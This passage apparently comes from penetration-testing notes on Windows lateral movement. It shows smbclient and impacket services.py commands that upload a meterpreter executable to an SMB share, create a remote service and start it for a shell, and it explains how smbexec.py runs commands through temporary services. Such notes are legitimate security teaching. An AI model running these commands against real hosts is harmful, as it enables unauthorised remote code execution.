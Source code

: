     ![List Shares](/assets/smbclient_list_shares.png)
    ```sh 
    # Upload the exe to windows machine
    smbclient \\\\172.16.50.42\\smbshare -U user1 -c "put meter64_service.exe test.exe"
    # Using impacket services.py create service remotely
    services.py WORKGROUP/user1@172.16.50.42 create -name testing -display testing1 -path "\\\\172.16.50.42\\smbshare\\test.exe"
    ```
    ![Create Service](/assets/impacket_create_service.png)
    ```sh
    # Using impacket start the service and get the meterpreter shell
    services.py WORKGROUP/user1@172.16.50.42 start -name testing
    ```
    ![PoC](/assets/meter_session.png)

---

## Impacket smbexec.py
  + It does not upload a service binary to target.
  + By default it creates a service with the name "BTOBTO". Of course the name can be changed in `smbexec.py` under the variable `SERVICE_NAME=...`, or can be given as a command line parameter to `smbexec.py`.
  + For every command given:
    - Transfers commands for the attacker's machine to the target machine via SMB as a bat file in `%TEMP%/execute.bat`
    - A new service named "BTOBO" is created which does the following and then exits.
    - It echoes the command to be executed in a `bat` script, and redirects to stdout and stderror to a Temp file, then runs the bat script then deletes it.
    - Makes a call to an existing binary that already lives on the endpoint to execute commands, cmd.exe
    - It is actually a pseudo shell (**Non-interactive Shell**)